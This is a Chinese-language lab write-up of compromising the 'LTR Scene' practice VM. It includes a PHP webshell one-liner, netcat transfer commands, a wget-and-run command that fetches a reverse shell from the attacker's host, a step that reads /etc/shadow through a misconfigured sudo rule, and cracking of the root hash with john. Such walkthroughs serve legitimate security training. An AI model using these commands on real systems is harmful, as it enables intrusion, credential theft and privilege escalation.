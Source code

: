 ```yaml
---
title: LTR Scene（php写入一句话+sudoer提权）
categories:
- training
tags:
- training
---
```

以前的步骤经常看到一个感兴趣的点，然后就一直死磕ORZ

[发现登陆页面，就开始尝试检查弱密码](https://whale3070.github.io/training/2018/10/29/ch4inrulz-Apache-.htaccess%E5%8F%88%E6%98%AF%E5%A5%97%E8%B7%AF/)
实际上如果检查到备份文件泄露，很快就可以突破登陆表单。

[发现backup文件下载，从猜测直接跳到尝试，步骤错了。。](https://whale3070.github.io/training/2018/10/13/node-%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2+%E5%AF%86%E7%A0%81%E5%AD%A6%E7%9B%B8%E5%85%B3/)

所以踩点这一步的确没有做好。

---

## 踩点
```
21/tcp    open   ftp        ProFTPD 1.3.1 Server
22/tcp    open   ssh        OpenSSH 5.1 (protocol 1.99)
80/tcp    open   http       Apache httpd 2.2.13 ((Unix) DAV/2 PHP/5.2.10)
Linux 2.6.X
```
第一点，不要相信任何扫描结果。

#### 80:
http://192.168.2.120/logs/ 403
http://192.168.2.120/cgi-bin/ 403
- info1: 
```
index.php
<!-- username:logs password:zg]E-b0]+8:(58G -->
```
- info2:
一个邮箱dev@21ltr.com
源码发现了一个口令，经过尝试确认ftp口令可以登录。

#### 21:
info2: 检查过匿名登陆
- 下载了一个php文件
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/1.PNG)
lcd /root/Desktop
get backup_log.php 
- ftp权限可读不可写
lcd /root/Desktop
put
a.php（上传本地a.php）
a.php（把选中的文件，以a.php写入服务器）
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/2.PNG)

- 看来只能检查这个php脚本了。
```
<?php $log = time(); echo '<center><b>GMT time is: '.gmdate('r', $log).'</b></center>'; ?>          
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/3.PNG)
该脚本的作用：生成现在的时间戳，然后记录下发生错误的记录。
没有任何提权思路。

## 22 ssh：
[exp](https://www.exploit-db.com/exploits/45233/)
python 45233.py --port 22 --username logs 192.168.2.120
logs is not a valid user!

---

## 10001： scp
一开始发现了10001开放，可是具体去扫描的时候，又关闭了，所以以为是误报。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/4.PNG)
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/5.PNG)

---

首先将kali改为192.168.2.240，ftp泄露的log提示。
scp会将文件发送到这个ip。

第二步建立一个文本文件，写入一句话。
`<?php system($_GET['cmd']) ?> `

第三步执行监听。

```
nc -nvlp 10000 > file.gz && nc -nv 192.168.2.120 10001 < text  
```
分为两条命令，第一条，监听本地10000端口，如果有连接进来，就发送到file.gz。第二条，将text文件发送到指定ip和端口。

注意：&& 和 ；的区别（linux shell）
&&正确执行完第一条，才执行第二条。
； 分别执行，命令之间不相关。

第四步，稍等一会儿nc显示，靶机连进来了==，并传递了一个备份文件。
在这里，我检查过backup_log.php，确认没有漏洞。但是居然可以利用scp写入system函数，让这个文件可以执行命令！真的出乎意料。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/6.PNG)

---

接下来就简单了，[以前学过](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)
info: /var/www/htdocs/logs
Linux slax 2.6.27.27
准备php反弹shell脚本。
kali: python -m SimpleHTTPServer 888
		nc -lnvp 1234

`cd /tmp;wget http://192.168.2.240:888/php-reverse-shell.php;chmod +x php-reverse-shell.php;./php-reverse-shell.php`
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/7.PNG)

现在是apache用户

---
查找ssh密钥
find . -name "id_rsa" 2> /dev/null
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/8.PNG)

```
./mnt/live/mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa           root root 1675 Jan  5  2008 
./mnt/live/memory/changes/media/USB_1/Stuff/Keys/id_rsa
./mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa
./media/USB_1/Stuff/Keys/id_rsa
root root 1675 Jan  5  2008
```
尝试后，以hbeale用户登陆
```
chmod 600 key
ssh -i key hbeale@192.168.2.120  
```
现在是普通用户权限

---
## sudo权限错误

以前遇到过关于sudo权限的[target](https://whale3070.github.io/training/2018/04/16/bashed(%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C+%E6%9D%83%E9%99%90%E9%94%99%E8%AF%AF)

#### visudo
以root用户运行visudo命令，可以修改/etc/sudoers。

`# User privilege specification`
root ALL=(ALL) ALL
xx ALL=(ALL) ALL

如果sudoers文件中，有上述代码。说明xx用户可以用sudo执行任何命令（以root权限）

sudoers文件只有root账号才能查看并且修改。

#### sudo -l
用户hbeale执行该命令，查看sudoers权限。
```
User hbeale may run the following commands on this host:  
    (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
    !/usr/bin/su *root*  
    (root) NOPASSWD: /usr/bin/cat  
```
最后一行NOPASSWD，说明sudo命令运行/usr/bin/cat的时候，不需要输入密码。

于是sudo cat /etc/shadow
获取到了root加密的口令 `$1$VW5E9DmD$deoML8uqU/4HaTmNmfM7G1`

---

#### 破解/etc/shadow
将口令写入pass.txt
john --wordlists=/usr/share/wordlists/rockyou.txt pass.txt
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/9.PNG)

su root，提权成功。

